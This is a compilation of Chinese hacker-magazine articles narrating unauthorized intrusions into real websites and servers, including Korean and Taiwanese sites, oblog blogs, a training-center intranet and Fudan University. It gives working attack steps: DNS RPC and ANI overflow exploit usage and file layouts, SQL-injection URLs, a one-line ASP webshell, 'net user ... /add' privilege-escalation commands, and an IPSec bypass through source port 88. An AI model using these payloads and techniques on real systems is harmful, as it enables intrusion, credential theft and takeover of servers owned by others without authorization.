韩文不能正常显示出来，都变成问号了！但是可以清楚地看到 guest 用户已经在管理员组里了。最后就是登录远程桌面了，如图14。现在已经完全控制了该服务器，还是双 CPU 的哦，这次入侵就圆满结束了。看来，这韩国网站的技术含量也一般般呀；不见得比国内的网站好到哪儿去。


> 小编点评：  
> 本文的重点并不在于前边的注入及获得 WebShell 的过程，而是在于获得 WebShell 后如何提升自己的权限。本文并没有使用常用的 Serv-U 及 pcAnywhere 来进行提权，而是查找数据库连接文件，找到高权限的用户名和密码，然后利用 sqlrootkit 执行命令来提升自己的权限。可以说，文章后半部分的提权过程才是本文的重点。

## 一起来认识 Windows DNS 服务溢出漏洞

黑叉子

4月中旬，在国外的黑客网站上率先公布了最新的 Windows DNS 服务 RPC 接口远程栈溢出漏洞的攻击程序，接下来的几天里，针对该漏洞的攻击测试程序一共公布了五个。对于菜鸟们来说，这可是一个天大的喜事呀，因为这是自去年 MS06-040 漏洞公布后，针对 Windows 系统的又一个非常严重的远程溢出漏洞。

这个漏洞的简单介绍如下：Windows DNS 服务器的 RPC 接口在处理畸形请求时存在栈溢出漏洞。Lookup_ZoneTreeNodeFromDottedName() 函数使用固定的本地缓冲区转换 Name_ConvertFileNameToCountName() 字符串，这个字符串中可能包含有反斜线 `\` 字符，尽管在写入缓冲区的时候执行了一些边界检查，但入侵者可以使用包含有多个反斜线字符的字符串来绕过检查，从而导致栈溢出。远程攻击者如果向有漏洞的系统发送特制的 RPC 报文的话，就可以触发这个溢出，导致以 DNS 服务的安全环境执行任意指令（默认为系统权限）。这个漏洞主要影响 Windows 2000 SP4 以及 Windows 2003 SP0-SP2 的版本（可以远程溢出 Windows 2003 哟）。

首先我们来看一下关于漏洞测试程序的编译问题。给出的共有五个文件，分别是：dissasembles.txt、dnsxpl.acf、dnsxpl.idl、Makefile 和 dnsxpls.c。虽然也是 C 程序，但是倘若我们直接使用 VC 编译 dnsxpls.c 的话，将会提示我们找不到 dnsxpl.h 这个头文件而出错。事实上，这个程序应该使用 nmake 来进行编译。具体的编译格式就是 `nmake /f makefile`，很快 dnstest.exe 就会编译出来了（图1）。我们来运行一下，看看这个溢出程序的使用格式是怎样的。


使用格式非常简单，一共有两种格式，一种是 `dnstest -h 127.0.0.1`，这个是用于本地溢出的；另一种就是 `dnstest -h 远程IP地址 -t 系统型号 -p 连接端口`（图2）。是不是有许多菜菜已经迫不及待地想去测试了呢？别急，倘若那样的话，保险不会成功的，因为并不是所有的 Windows 2000 和 2003 系统都开放了 DNS 服务。那要如何来寻找开放了 DNS 服务的主机呢？DNS 服务所使用的端口号是 53，因此我们可以通过端口扫描工具扫描 53 和 445 端口（通过 445 端口建立的连接）来寻找测试目标。


打开 superscan，点击右上角的端口配置按钮（图3），然后在端口列表中找到 53（Domain Name Server）和 445（Microsoft-DS）端口，双击就会选中它们了（图4）。以后，如果我们只想使用 superscan 扫描特定端口的话，也可以这么选择。然后点击“OK”按钮，superscan 会弹出一个小窗口，提示我们列表已经更改是否保存。点击“是”，保存成一个文件，然后再点“确定”，就会回到 superscan 的主界面了。在扫描类型（Scan type）中选择“所有列表中选择的端口”（All selected ports in list），输入要扫描的起始地址就可以了（图5）。

我们先来测试一下本地溢出，按照使用格式，输入 `dnstest -h 127.0.0.1` 运行，程序最终会停在“Now try to connect to port 4444”，提示我们尝试连接 4444 端口（图6）。我们运行 nc，连接 4444 端口，成功的话就会得到一个 shell 了，而且还是系统权限哟（图7）！


如果是远程溢出的话，可以使用 `dnstest -h 192.168.0.123 -t 3 -p 445` 的格式来进行测试。

不过，有一点要说明，在测试的时候，DNS 服务只响应一次，也就是说我们测试一次，对方的 DNS 服务就会挂掉一次，必须重新启动系统后，对方的 DNS 才会恢复正常。另外，可能是因为该漏洞测试程序还不完善吧，该漏洞的远程溢出效果还不是太好。我把编译好的程序及源程序也一并提供给大家，希望有兴趣有能力的朋友可以研究改进一下程序，以使其远程溢出的效果更好。

（文中涉及到的编译后的漏洞测试程序及源程序，请到 X 的网站上来下载）

## 一、个人的战争


## 1.29 论 Windows DNS 漏洞溢出到底

在上期的杂志中，我们已经简单介绍了 Windows DNS 服务 RPC 接口远程溢出漏洞的利用。不过遗憾的是，上次介绍的漏洞利用工具在远程溢出效果上非常不理想。好在后来网上又公布了另一款溢出工具，据说溢出的成功率非常高。该工具通用于 Win2000 SP4 的所有版本，以及英文、日文、韩文、简体中文和繁体中文的 Win2003 SP1 版本。

报告称漏洞位于 1028 端口，目标操作系统为 Windows 2003。为了尽量多地找到存在漏洞的电脑，可以先用 superscan 扫描 53 端口来寻找开放 DNS 服务的系统，再使用该工具扫描漏洞端口，提高效率。接下来使用 `dns -t2003chs 192.168.0.99 1028`，工具提示检测端口 1100，随后使用 nc 连接该端口并获得 cmdshell，为 system 权限。


入侵的第二步是扫描。工具提供漏洞检测功能，扫描格式可写为 `dns -s 192.168.0.99`，可检测到相关端口并识别目标系统版本。该工具利用方式简单，菜鸟也能快速上手。

## Windows ANI 漏洞新玩法之 文件夹也 ANI


### 一、前言

一个悠闲的下午，你正坐在电脑前，突然有人递来一个 U 盘。出于谨慎，你没有直接双击盘符，而是通过资源管理器侧边菜单打开，看似安全。就在这一瞬间，屏幕刷新后系统已被入侵。

你可能想不到，看似安全的操作也会中招：仅仅打开 U 盘目录，就可能触发 ANI 漏洞。本文介绍的是一种利用 Explorer 触发 ANI 漏洞的尝试与思路。

### 二、初窥门径——实战溢出 Explorer

关于 ANI 漏洞的利用，目前正在网上流行着，大家在利用这个漏洞抓鸡挂马的同时，对于该漏洞的原理也应该有所了解了。ANI 漏洞的成因是 user32.dll 中的函数在读取 `.ani` 文件时未对其中的 anih 块长度进行检查，直接把堆中的 anih 块复制到堆栈中，从而触发了一个栈溢出。

之所以我们能够使用 ANI 漏洞来挂马，是因为 ani 文件可以通过 HTML 标签来调用（例如 `<body style="CURSOR: url('exploit.ani')">`）。当客户端浏览器打开挂马的页面，读取精心构造好的 ani 文件时就会触发溢出，然后执行 shellcode，通常是下载木马程序并执行，然后就是等着肉鸡上线了。

这个溢出还有一个特别之处，就是它并非出自第三方程序，而是出在 Windows 的核心 DLL 之一——user32.dll 文件上。也就是说，Explorer 在读取 `.ani` 文件时（你打开该文件所在目录的一瞬间）也会触发这个溢出。

我们最关心的是利用：只需知道溢出是由于第二个 anih 块内容过长导致即可。第二个 anih 块的开始位置是 `0x58`，而 `0x54~0x57` 标明了 anih 块大小。测试时可在正常 ani 文件中从 `0x58` 开始填入大量 A，再修改 `0x54` 开始的 4 字节长度为 `FF FF 00 00`。


可能大家要问了，仅仅是 Explorer 挂了，却没有任何错误提示弹出，该怎么分析在哪里发生了溢出呢？因为 Explorer 这类系统级程序内部有完整的错误处理机制，出错时一般不会弹框。这时就要搬出调试利器 OllyDbg 来帮助分析。


打开 OllyDbg，选择“文件”→“附加”，找到 Explorer 并附加进来（如图2）。此时程序会被暂停，按下 F9 让程序继续跑起来，然后双击打开存有畸形 ani 文件的目录。

出错后切回 OllyDbg，可看到异常信息。按 Shift+F9 继续异常处理后，会看到执行点落在大量 `AAAA...` 地址处（该地址不可执行），说明已经可以控制 EIP 了。通过查看栈可定位覆盖范围与偏移：例如异常处理地址在 `0x0160EC18`，第一个 A 在 `0x0160E6C5`，覆盖长度约为 `0x553`。


因此可以使用典型的覆盖异常处理方式进行溢出。畸形文件构造格式为：`88 字节 ani 文件头 / 1359 个 0xAA / jmp 04 (90 90 eb 04) / 0x7ffa1571 / shellcode / ...`。其中把异常处理地址设置为 `0x7ffa1571`（`pop pop retn`），触发后即可转到 shellcode。


该溢出也可以使用覆盖返回地址方式进行。覆盖返回地址的好处在于不会使 Explorer 直接挂掉；与当时广泛传播的某些样本类似，覆盖两个字节的返回地址也可实现稳定利用。

网马使用了两个伪装成 jpg 的 ani 文件，提高了成功率。这里还存在覆盖数据与返回地址控制的问题，调试时可控制到 EIP，但受 ESP 与栈变化影响，shellcode 定位较困难，长度也较苛刻（约 100 字节左右）。


模板在 Windows 2000 上可触发 Explorer 崩溃并引发怀疑；在 Windows XP/2003 上 Explorer 可自动恢复。利用时需将相关 module 文件放在 ani.exe 同目录，否则模板不可用。

### 三、神功初成——工具才是王道

作者介绍了自制 ANI 利用生成器：可生成 ani 文件、自动添加管理员账户，适用于 Windows 2K/XP/2K3；可自定义账号密码，并可在成功后删除指定文件以减少痕迹。

实战中通过共享、FTP、WinRAR 等方式投递 ani 文件到目标目录。若目标为 2000 且无数据执行保护，成功率较高；随后等待管理员触发并完成账户添加。


> 小编点评：本文强调工具化利用 ANI 漏洞的实战思路，并提醒读者关注测试环境、权限与利用链完整性。

- 通过文章开头提到的方法进行提权。  
- 在 WebShell 中上传/投递。  
- 结合共享、FTP、WinRAR 等方式写入目标。

## oblog4.0/4.5 漏洞，菜鸟也来玩入侵

作者在论坛看到关于 oblog 4.0/4.5 的 0day 帖子，认为对新手而言可借助公开工具完成站点入侵，并开始分析漏洞触发点（如 js.asp）。

```vb
<!--#include file="conn.asp"-->
<!--#include file="inc/class_sys.asp"-->
...
Dim oblog
set oblog=new class_sys
oblog_autoupdate=False

Sub show_posts()
  Dim teamid, postnum, topic
  ...
End Sub
```

```vb
teamid=Request("t0")
postnum=Request("u")
...
Sql="select top " & postnum & " ..."
If teamid<>"" And teamid<>"0" Then
  teamid=Replace(teamid,"'","")
  Sql=Sql & " And teamid in ('" & teamid & "')"
End If
Response.Write oblog.html2s(rsRet,true)
```


从上边的代码中很明显可以看到 TID 没有经过过滤直接提交给 TEAMID 了，而 TEAMID 只过滤了“'”就直接进入 SQL。于是利用该漏洞进行注入，找到可用工具并开始测试。

如何寻找存在漏洞的 blog 呢？作者通过搜索 “powered by oblog4”，把结果地址复制到漏洞利用工具中进行测试。

点“提交”按钮，如果成功的话，就会暴出管理员后台登录的用户名和密码的 MD5 值。如图2，暴出的管理员用户名和密码分别是 admin 和 f8fd10f88d9d0746（MD5 加密的）。

接下来，把 f8fd10f88d9d0746 放到在线 MD5 破解网站进行解密，很快查出了密码 formatyou，如图3。

有了用户名和密码，就可以登录后台。在 `/admin/admin_login.asp` 输入 admin、formatyou，成功进入后台，如图4。


黑客入侵就这么简单，不过不要进行破坏。作者使用同样方法进入了多个 oblog 后台，并在服务器组件配置信息中看到图5所示信息。


从图中判断这是虚拟主机，其中 zhang0315611 可能对应 FTP 账号。通过 ping 得到主机地址后，在“我的电脑”中输入 FTP 地址，弹出 FTP 登录窗口，输入账号和后台密码后成功进入，如图6。


这样不只是拿下 blog，还可能拿下整个网站。很多小网站使用虚拟主机，域名常对应 FTP 用户名；若管理员密码复用，就可能进一步登录 FTP。

（文中涉及到的 oblog 4.0 & 4.5 漏洞利用工具已经收录于光盘中）

## 一次绕过 IPSEC 限制的渗透之旅

都说“学到老，活到老”，作者在培训期间不想只听理论课，决定尝试对培训中心内网服务器做一次安全测试。

内网有 WEB 服务器，存放课程相关资料。浏览后发现页面多为静态且命名规则明显像 CMS 系统，于是决定从 WEB 路径探测入手。

使用“WEB 路径猜解”扫描敏感文件与路径，发现了 Ewebeditor 路径，如图1。


打开 Ewebeditor 登录页，使用默认 admin 登录失败。随后尝试下载其数据库文件并用 Access 打开继续分析。

eWebEditor_System 表里可查看管理员登录的用户名和密码，都是采用 MD5 加密的。不过，没关系，网上有许多 MD5 查询网站，把被 MD5 算法加密后的用户名和密码放到 MD5 破解网站上进行查询，结果出来了，如图2。


使用破解出来的管理员账号登录 ewebeditor 的后台管理，然后再得到 WebShell 就简单了。来到“样式管理”，随便选择其中的一个样式，然后点“设置”，进入“设置样式”页面，在图片类型中添加 ASP 文件类型，图片限制里输入 0，以方便我们传送木马，如图3。一切都设置好后，点提交。回到“样式管理”页面，选中刚才修改后的样式，点“预览”按钮，我们就能利用插入图片的功能来插入我们的海阳顶端 ASP 木马了。点“代码”栏，能看到我们上传后的海阳顶端 ASP 木马的相对路径，如图4。


登录我们的海阳顶端 ASP 木马，许多菜鸟在得到 WebShell 后，都会进行挂马、涂改主页。其实这是非常不明智的做法。我们应该先收集一些服务器的相关信息，以方便我们进一步提权。利用海阳顶端 ASP 木马的强大功能，我收集到了服务器的一些基本信息，如图5。由此得出，操作系统为 Windows 2000，开启了终端服务，并且默认的端口也没有改变。我还发现了提权好帮手 Serv-U，我们来提权吧。上传 GoldSun 编写的 Serv-U 提权 ASP 文件到服务器上，输入添加管理员的命令 `cmd /c net user mickey andy /add & net localgroup administrators mickey /add`，然后点提交，返回了成功页面，如图6。

看来管理员并没有修改 Serv-U 默认管理员的口令或端口，这倒是省下了我们不少的麻烦。激动的时刻到了，使用远程桌面连接，输入 WEB 服务器的 IP 地址，点连接，结果却弹出了如图7所示的提示。

没想到内网的这台服务器配置还挺严格的，刚开始确实小看它了。我扫描了一下服务器的端口，发现只开放了 80 端口，难怪终端连接不上。可是刚才在图5中也没有看到 WEB 服务器端安装有任何防火墙呀？等等，有个“IPSEC Policy Agent”服务启动了，或许是管理员利用 IPSEC 做了端口过滤，这非常有可能。毕竟学的就是 MCSE，使用微软自带的这个 IPSEC 进行安全管理对于管理员来说是再好不过了。不过，IPSEC 也不是非常安全的，经过精心配置的 IPSEC 不会过滤广播通信、多播通信及 Kerberos 协议的通信，因为 Kerberos 本身就是一种安全协议，就不需要 IPSEC 保护了。这就是 Windows 自带的 IPSEC 的 Kerberos 免过滤规则，我们就是要利用这个规则来突破限制。


我们都知道 Kerberos 协议是采用 88 端口通信的，所以只要在源端口绑定为 88 端口，IPSEC 就会放行。可是这里还有一个拦路虎，就是在 Windows 2000 SP1 及以后的版本中，系统默认是禁用 Kerberos 免过滤规则的，不过这点不用担心，可以通过修改注册表的 `HKLM\SYSTEM\CurrentControlSet\Services\IPSec` 下的 `NoDefaultExempt` 键来绕过这个限制。这个 `NoDefaultExempt` 键在 Win2000 SP1-SP4 下默认是 1，在 Win2003 下默认是 3，我们将其修改为 0 就可以了。在本地计算机上从注册表导出该文件并修改 `NoDefaultExempt` 的默认值为 0，然后保存为 ipscc.reg，通过 WebShell 上传到 WEB 服务器上，利用 Serv-U 提权 ASP 版本执行如下命令：`cmd /c regedit /s C:\Inetpub\wwwroot\ipscc.reg & iisreset /reboot`，如图8。这样执行成功后，WEB 服务器就会重新启动来刷新 IPSEC。

设置，我们可以通过海阳顶端的 ASP 后门的注册表键值读取功能来确认我们的修改，如图9，说明我们修改成功了。


我们再次利用 SL 扫描器执行一下端口扫描，这次多加了“-g”参数，意思为绑定源端口为 88 开始扫描，如图10。可以看出前后两次的扫描区别：第一次没有绑定源端口 88 的扫描结果是只扫描出了 WEB 的 80 端口，说明服务器所开放的端口仍然在 IPSEC 的保护之中；而第二次则扫描出了 WEB 服务器上所有开放的端口，这就说明我们绕过了 IPSEC 的保护限制。

接下来我们需要利用 Fpipe 这类的端口转向工具，在本地 CMD 命令行下执行“Fpipe.exe -l 3389 -r 3389 192.168.0.2 -s 88 -v”，这条命令的意思是利用 Fpipe 监听本地的 3389 端口，当使用 mstsc 连接本地的 3389 时，Fpipe 会把数据包转发到 192.168.0.2 服务器的 3389 端口，并采用源端口为 88。我们重新打开远程桌面，输入本机的 IP 地址，就可以连接上远程的 WEB 服务器了，如图11。


这次的渗透测试虽然简单，却很特别。管理员自认为仅开放 WEB 服务所需要的端口，服务端就安全了，而我们却可以通过应用层的攻击，比如利用常见的 WEB 程序的注入漏洞，先得到一个 WebShell，然后再利用微软操作系统自身的漏洞或第三方软件的漏洞，再或者服务器配置的漏洞来提升我们的权限，然后再由里向外突破防火墙的限制就易如反掌了。管理员要不断地学习，不断地实践来提升自己的功力，就像我这样 :-)

> （文字中涉及到的 WEB 路径猜解工具、海阳顶端 ASP 木马、GoldSun 的 Serv-U 提权 ASP 版、SL 扫描器、Fpipe.exe，已经收录于光盘中）

## 二、上接第334页

## 三、风雨过后

至于 hotmail、yahoo 等邮箱我没有测试成功，小难也没有时间去研究了。还有 263 的是收费邮箱，我就不想注册一个去测试了，估计应该也会存在相同的问题吧。这个就留给有条件的朋友去测试了。或许有不少读者会问，你光弹出个框框有什么用呢，弹出个网页也没什么用呀。这个就要靠大家自己发挥想象去利用了，我只是以文章的形式简单地说明一下发现的问题。就这样，几乎国内常用的邮箱都有跨站问题，你以后还敢放心地打开收到的邮件吗？由于我是被小难拿刀逼着搞这个的，所以要是文章有不妥之处，还请大家给我指正。有什么问题也可以到 X 的官方论坛提出，欢迎大家交流意见！

## 台湾 Linux 肉鸡大派送

### 漫无目的

五一了，终于放假了，我一大早就兴奋地从床上爬起来，心里琢磨着这美好的七天长假该如何度过。先打开电脑，挂上 QQ，忽然想起五一之前，同寝室的哥们不知咋的迷上了制服卡丁车，非让我给他弄个台湾的 VPN。没办法，谁让他是我们寝室的老大呢，不想干也不行啊。本以为五一这七天总算能逃他的魔掌了（老大回家了），但是随着老大的头像在屏幕上不停地闪动，我知道如果这几天弄不到 VPN 的话，等他回来我的下场可就悲惨了。就这样，我带着被威胁的心情开始了这段入侵的经历。

想要入侵网站，最快的方法就是从对方网站的整站系统下手，如果有源码的话，研究一下，对入侵网站还是很有帮助的。我整理了一下思路，到网上搜索了一下台湾的整站下载站点，N 小时后，终于找到了 http://www.***.com.tw/CNindex.html 这个网站。在里面转了转，忽然看到了有个“线上展示”功能，如图1。


正好来看看他公司的产品安全性怎么样，点击打开“线上展示”，如图2。居然直接给出了后台管理的用户名和密码，那咱还怕它干啥，随便找个进去看看。我选择进入的界面如图3，使用网站给出的后台管理账号和密码，很轻松地就进入了后台，如图4。

既然已经进入后台了，那么接下来就是找个能够上传的地方上传木马什么的了。找了半天，最后在网络商店管理中的“网站内容管理”——“档案下载管理”，找到一个可以上传的地方，如图5。点击“新增”，然后通过“浏览”选择一个要上传的 PHP 后门，上传即可，如图6。


上传成功的那一刻，我可是兴奋得没法用语言表达，基本上全是肢体语言。来访问一下我们的 PHP 木马，如图7。


很轻松地就弄到了一只 Linux 肉鸡，心情大好，早就把老大的阴影给忘光了。接下来就是搜索一下使用这套整站系统的网站了。我迫不及待地打开 GOOGLE，突然一个问题冒了出来：我即使找到了网站，可没有管理员密码，进不去后台岂不是白搭。……我思索了一会儿，不就是没有用户名和密码吗，有什么大不了的，找个注入点不就行了吗。

可是说起来容易做起来难呀，我左逛逛，右逛逛，最后在讨论区里发现了点蛛丝马迹，如图8。


随便点了一个问题，来看看它的地址，如图9，是不是出现了 `php?id=` 的格式啊。那么我们就在后面加个“'”号，看看返回什么样的信息吧。居然没有任何变化，那就是说这儿没有注入漏洞吗？小菜们可千万不要被骗了哟。“PHP?”后面的参数有那么多，我们必须在每个参数后面都加个“'”号，如果这样都没有反应的话，那就只能换其他的链接了。当我在 Dcs_id 参数后面加“'”号时，路径露出来了，如图10。


接着继续提交 `http://demo.****.com.tw/shop/modules.php?op=loadmodule&name=content&file=index&func=discuss&action=respect&Dcs_id=12and 1=1/*&currentpage=1`，返回了正常页面；再提交 `...Dcs_id=12 and 1=2/*&currentpage=1`，返回出错的话，那这个链接地址就能够注入。

接着就该手工注入来发挥作用了，当然了菜鸟们也可以使用工具。下面就跟着我一起去把管理员的账号密码搞到手。首先，我们要看看这个网站的数据库版本，为什么呢？因为数据库版本在 4.0.0 以上的话，就能够使用联合查询 union 了，会省下很多的时间和精力。提交 `... and ord(mid(version(),1,1))>51/*&currentpage=1`，页面返回正常，这证明了数据库版本高于 3。那就能使用 union 了。接着提交 `... order by 10/*&currentpage=1`，返回出错，说明字段是小于 10 个的。再提交 `... order by 5/*&currentpage=1`，返回正常，说明字段是大于 5 个的……

说明字段是大于 5 个的，依此类推，我们在字段 8 的时候返回正常，9 的时候返回出错，终于猜测到字段基本上是 8 了！这里说基本上是因为有些字段是不能排序的，所以还需要使用 union 精确定位字段数字是 8。继续提交 `http://demo.****.com.tw/shop/modules.php?op=loadmodule&name=content&file=index&func=discuss&action=respect&Dcs_id=12 and 1=2 union select 1,2,3,4,5,6,7,8/*&currentpage=1`，返回结果如图11所示。

正当我开心的时候，麻烦又来了，我居然猜不到表名，可能是我道行太浅的缘故吧。正当我安慰自己的时候，聪明的头脑又一次发挥了作用：我们不是已经拿到了那个线上展示的网站的 WEBSHELL 了吗，那表名在那儿查询不就行了吗。我们上传一个带连接数据库的大马到那个网站上，在网站根目录找到 config.php，在里面就能找到连接数据库的账号、密码和数据库名，如图12。然后再使用得到的账号和密码连接数据库就行了，如图13、图14。


## 一个人的战争

要想继续得到管理员的账号和密码，我们只要在数据库的表中找到表名是 user 或 admin 什么的就行了，图15中框起来的就是存在管理员账号和密码的表，字段当然不用说了，一目了然，USER 和 PASS。大功告成了，心里别提有多开心了。


知道了表名和字段了，我们就继续注入吧，提交 `http://demo.slink.com.tw/shop/modules.php?op=loadmodule&name=content&file=index&func=discuss&action=respect&Dcs_id=12 and 1=2 union select 1,2,3,user,5,pass,7,8 from users/*&currentpage=1`，返回结果如图16所示，管理员的账号和密码很轻松地出现了。


接下来我们随便找个网站来练习一下，打开 GOOGLE，在关键词处填上“Copyright c2005 by Slink Tech”，网站虽然不是很多，但已经足够我们这些没玩过 Linux 的小菜们开心一阵子了，如图17。

随便找一个，很顺利地就拿到了管理员账号和密码，上传木马然后走人。兴奋中的我见站就搞，终于上天也看不过去了，弄出了一个如图18所示的东西来。这是什么东西，真是郁闷啊。于是我又回到最开始的那个网站的数据库中找了半天，终于又发现了一个表，如图19。


图中框起来的 spwd 就是第二密码的存放表名，字段还是 USER 和 PASS。现在才是真正的大功告成。提交 `http://demo.slink.com.tw/shop/modules.php?op=loadmodule&name=content&file=index&func=discuss&action=respect&Dcs_id=12 and 1=2 union select 1,2,3,user,5,pass,7,8 from spwd/*&currentpage=1`，返回结果如图20所示。


得到的管理员账号、第一密码和第二密码和演示给的一样。这点小问题根本难不倒我。兴头上的我，随便把他所有的产品都检测了一遍，基本上都有远程包含漏洞。本次的入侵任务已经完成了。本文介绍了 PHP 网站入侵的一些方法和心得，并给出了相关的实例，希望对于感兴趣的朋友能起到抛砖引玉的作用。（文章中涉及到的 c99shell 已经收录于光盘中）

## oblog4.0 最新版本漏洞大曝光

风尘浪子 [E.S.T]

oblog 是国内一款使用非常广泛的多用户博客系统，以专业、安全、稳定而著称，占有相当的市场地位。自从与动网合作后，发展更加迅速。然而 oblog 在程序越来越完善的同时，也带来了许多安全问题，最近几天，oblog 的漏洞被炒得热火朝天。本文讨论的是另外一个严重级的漏洞，漏洞出自 tb.asp 文件里，影响 4.0 所有相关的版本，包括 access 免费版本和 sql 商业版，但是针对官方最新发布的 4.5 版本无效。利用此漏洞可以得到管理员的密码，继而闯入后台获取 webshell，甚至控制服务器。

为了让大家更好地理解漏洞原理，我们来看一下 tb.asp 文件中相关的漏洞代码：

```asp
On Error Resume Next
If Application(cache_name_user & "_systememmod") <> "" Then
    Dim enStr
    enStr = Application(cache_name_user & "_systememmod")
    enStr = Split(enStr, "|")
    If enStr(3) = "1" Then response.write("系统临时禁止使用引用通告功能!") : Response.End
End If

Dim objTrackback
Dim LogId, ip, url, title, BlogName, Excerpt, rst, rstCache

if oblog.chkiplock() then response.write("你的IP已经被系统锁定!"):response.End()
...
Logid=Request("id")
IP=GetIP
Url=Trim(Request("url"))
title=Trim(Request("title"))
BlogName=Trim(Request("blog_name"))
Excerpt=Trim(Request("excerpt"))
...
Set rs = oblog.Execute("SELECT TBcode FROM oblog_log WHERE logid = "&logid)
If Not rs.EOF Then
    TBcode = LCase(rs(0))
Else
    Response.Write "日志不存在"
    Response.End
End if
```

tb.asp 的功能是引用通告，引用通告大概和评论、trackback 之类的东西差不多。大家可以看到 LogId 这个变量是从 `Request("id")` 得到的，但没有经过任何过滤就直接到了下面的 `Set rs = oblog.Execute("SELECT TBcode FROM oblog_log WHERE logid = "&logid)`，这个也太粗心了。其中检验引用通告授权码是否过期这个过程调用了查询语句，授权码到底是什么东西，我们不要管它，只要我们满足 url 变量等就可以实现注入。

看了这么多的代码，了解了漏洞产生的原理，现在我们就来看看如何利用。在浏览器中提交 `http://localhost:88/oblog4/tb.asp?id=1%20and%201=1&url=http://www.sina.com&blog_name=风尘浪子&title=好文章&excerpt=不错啊`，返回了类似“True::200705...”的错误信息（图1）。继续提交 `...id=1%20and%201=2...`，返回了“日志不存在”的提示（图2）。


好了，可以注入，我们来看看能不能够 union 查询。提交 `http://localhost:88/oblog4/tb.asp?id=1 and 1=2 union select 1 from oblog_admin where id=1&url=http://www.sina.com&blog_name=风尘浪子&title=好文章&excerpt=不错啊`，出错了，似乎字段类型不一致（图3）。这个注入点除了返回信息有一点点不同外，其他没什么特别。

oblog 的表名（`Y_oblog_admin`）比较特别，nbsi 自带的表名里默认是没有的，我们需要手工加上。字段（`Y_password`、`Y_username`、`Y_id`）也要手工加上。加上判断的关键字“True”，一分钟不到，nbsi 就把密码账号猜测出来了（图4）。


接下来做什么呢？当然是破解 md5，拿 webshell 了。我们可以选择 md5cracker 破解，也可尝试用 md5 网站查询。若是 sql 的商业版本 oblog，可以直接 update 修改管理员密码：`.../tb.asp?id=1;update oblog_admin set password='469e80d32c0559f8' where id=1-- ...`，剩下的就是登录后台。

假设已经进入后台，正式拿 webshell。常见方法是利用上传后缀等，但在该版本里后台不易找到设置上传文件类型的地方。作者进一步分析数据库路径与配置文件，提到还可以结合用户目录设置，例如将目录设为 `aaa.asp`，再申请用户后构造访问路径，实现进一步利用。

## 一个人的战争

我们把一个 ASP 木马后缀改成 jpg，如果我们把这个 jpg 上传到了 aaa.asp 目录或者其子目录里面，那么这个 jpg 格式的木马就会被执行；这一点和微软的 bug 有关。经过研究发现，无论我们在后台上传什么东西，都是传到了 UploadFiles 这个目录，UploadFiles 这个目录是在 aaa.asp 之外的目录，和 aaa.asp 这个目录一点关系都没有。记得老版的 oblog 可没有这么聪明，呵呵，时代变了！


最后，我终于找到了一个在 Win2003 环境下免 webshell 的办法。首先使用管理员账号进入后台，点击用户目录管理，添加一个用户目录 aaa.asp，并且设置成默认目录，接着点击“模板管理”下面的用户模板管理，修改默认模板（文本方式），也就是第一个模板了。修改主模板：将一句话木马 `<%execute request("a")%>` 插入代码的最后面，然后保存，如图5。

接着登录前台，注册一个新用户，访问自己的博客首页，首页已经变成木马了。最后当然就是上传大马，控制服务器了，如图6、图7。

怎么样，是不是很简单，Win2003 的服务器我们就这样拿到 webshell 了。至于 Win2000 服务器，到目前为止我还没有想到一个好的办法，倘若哪位高人想出来了，记得一定要共享一下哟！对了，这个漏洞的修补方法很简单，只需要将 `Logid=Request("id")` 改成 `Logid=int(Request("id"))` 就可以解决问题了！

> （文章中涉及到的工具 NBSI2 已经收录于光盘中）

## 重残杀人复旦黑白大学

hackest [H.S.T]

### 一、师出有名

某日上网十分无聊，就和 X 论坛的超级版主 wyzhack 瞎吹牛，东扯西扯的，后来不知道就怎么扯到复旦大学去了。他提议说不如爆掉复旦大学吧；当时实在是闲得无聊，就答应了（小编：这人做坏事的理由也真是……根本就没有任何原因和理由嘛；居然还得套上一个“师出有名”的司马号，复旦大学，你总要被爆还冤呀）。

### 二、战略部署

通过 Google 很顺利地找到了复旦大学的主站 http://www.fudan.edu.cn/，网站使用的是 PHP 程序。打开了一个链接，顺手加了个单引号，提示“警告！提交的数据非法！”。我又试了几个其它的注入关键字，都被过滤掉了。看来直接从主站下手的难度比较大，我得想点其它办法。我打算利用嗅探来获取目标站点的重要信息。我们都知道可以根据 ping 一个目标地址的 TTL 值来大致判断对方的服务器操作系统！我 ping 了一下复旦大学的主站，发现 TTL 值为 53，这个数值大致就是 Linux 操作系统，如图1。要想嗅探，就必须取得与目标服务器同一网段下的某台主机的权限，然后再安装嗅探工具进行嗅探。复旦大学主站的 IP 地址为 61.129.42.5，那我们就必须在 61.129.42.* 这个网段里先控制一台服务器！

我使用 SuperScan3.0 扫描整个 C 段的 21 端口，目的是先看看有没有 Windows 操作系统的服务器在这个网段里。至于为什么要选 21 端口，大家都清楚：要是安装了 Serv-U 的话，不仅仅能够说明对方使用的是 Windows 系统，而且提权也是比较容易的。不一会儿，扫描结果就出来了，有好几台都安装了 Serv-U，如图2。


图2

值得庆幸的是有个“在线论坛”，打开看看，原来是动网的。使用默认的用户名和密码尝试登录，居然成功地进入了后台，如图5。本以为可以很轻松地得到 webshell，没想到这个破论坛既不能上传也不能备份！没有了这两个功能，基本上就没法子拿到 webshell 了，郁闷！

我跑到了邪恶八进制论坛上去发帖请教，没多久就在回复里看到说动网还有个后台列文件的漏洞。大致方法就是在“基本设置”里修改“上传目录设定”，然后到“上传文件管理”里去查看结果。列了 N 久终于发现有可利用的东西了，如图6，eWebEditor 出现了。打开 eWebEditor 的后台登录页面，如图7。尝试使用默认的用户名和密码进行登录，发现无法登录进去，看来密码改过了。没关系，反正我们能列文件嘛。再利用动网列文件的漏洞找到了 eWebEditor 的数据库文件，下载回来，使用明小子做数据库管理功能打开。查到了管理员密码的 MD5 散列，如图8。到 MD5 查询网站查询这个密码，幸运的是这个密码并不复杂，顺利地查了出来，如图9。

### 三、步步为营

我决定从 61.129.42.42 这台服务器上下手，在浏览器里填入该 IP 地址访问，发现页面有点难看，都是些 doc 文档下载的东西，对我们来说没什么用。我们可以通过查询域名绑定来看看有些什么站点在上面。使用 X 以前介绍过的一个网站来查询吧，它查出来的数据多而且准！打开 http://www.seologs.com/ip-domains.html，在“Domain or IP address”里填上“61.129.42.42”，然后点击“submit”提交，稍等一会儿就会返回查询结果了，如图3。


图5


图3

只查到了两个，似乎不容乐观哦。而且这两个还都不能访问！后来访问了一下 8000 端口才有了反应，如图4。


图6


图4

在这里也看不出什么，页面比较简单，能利用的地方不多。

